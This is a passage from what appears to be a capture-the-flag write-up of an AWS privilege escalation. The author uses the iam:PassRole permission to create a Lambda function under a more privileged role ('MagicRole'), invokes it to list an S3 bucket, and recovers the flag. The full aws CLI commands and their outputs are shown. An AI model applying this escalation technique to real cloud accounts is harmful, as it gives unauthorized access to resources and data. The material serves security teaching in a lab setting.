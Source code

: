 
2. **Package the Function:**\
   Then zip `lambda_function.py` into a ZIP file called `function.zip` \

3.  **Create the Lambda Function Using MagicRole:**\
    With the new **iam:PassRole** permission, I created the function:

    ```cmd
    aws lambda create-function --function-name EscalateLambda --runtime python3.8 --role arn:aws:iam::212353106417:role/MagicRole --handler lambda_function.lambda_handler --zip-file fileb://function.zip
    ```

    \
    **Output:**

    ```json
    {
        "FunctionName": "EscalateLambda",
        "FunctionArn": "arn:aws:lambda:us-east-1:212353106417:function:EscalateLambda",
        "Runtime": "python3.8",
        "Role": "arn:aws:iam::212353106417:role/MagicRole",
        ...
    }
    ```

***

## Step‑4: Invoke and Troubleshoot the Lambda Function

I invoked the Lambda function:

```cmd
aws lambda invoke --function-name EscalateLambda output.json
```

**Output:**

```json
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```

A `output.json` file was created and while viewing its contents:

{% code overflow="wrap" %}
```json
\"Contents\": [{\"Key\": \"squ1rrel{dont_you_love_aws}.txt\", \"LastModified\": \"2025-04-04 05:59:47+00:00\"
```
{% endcode %}

**Flag:** `squ1rrel{dont_you_love_aws}`
